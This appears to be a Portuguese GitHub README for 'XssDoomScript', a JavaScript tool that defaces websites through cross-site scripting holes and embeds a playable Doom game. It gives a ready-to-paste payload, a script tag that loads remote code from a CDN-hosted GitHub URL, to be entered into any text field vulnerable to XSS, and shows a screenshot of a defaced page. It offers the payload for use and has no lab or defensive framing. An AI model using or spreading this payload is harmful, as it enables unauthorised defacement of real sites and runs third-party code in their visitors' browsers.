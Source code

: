 # XssDoomScript 
## Um código javascript simples, usado para alterar aspectos da página (Deface) por meio de vulnerabilidade XSS</h2>

<p>O código consiste em um javasctipt para alterar a página (Deface) e injetar um iframe jogável do jogo Doom.</br> 
Alguns atributos como cor de fundo, resolução do iframe e texto a serem exibido podem ser alterados no cabeçalho de constantes do script</p>

## Como testar o script ? 
<p>Caso já tenha achado alguma caixa de texto que possui a vulnerabilidade XSS explorável, apenas cole o seguinte código :  '<script src='https://cdn.jsdelivr.net/gh/Daniel-kenobi/XssDoomScript@main/script.js'></script>' . Após isso o script já irá alterar os aspectos da página</p>

<h5 align="center"> Exemplo de como o deface fica após explorado </h5>
<p align="center">
    <img src="https://i.ibb.co/QCt9SNz/Deface-Example.png" alt="Deface-Example" width="600" height="400">
</p>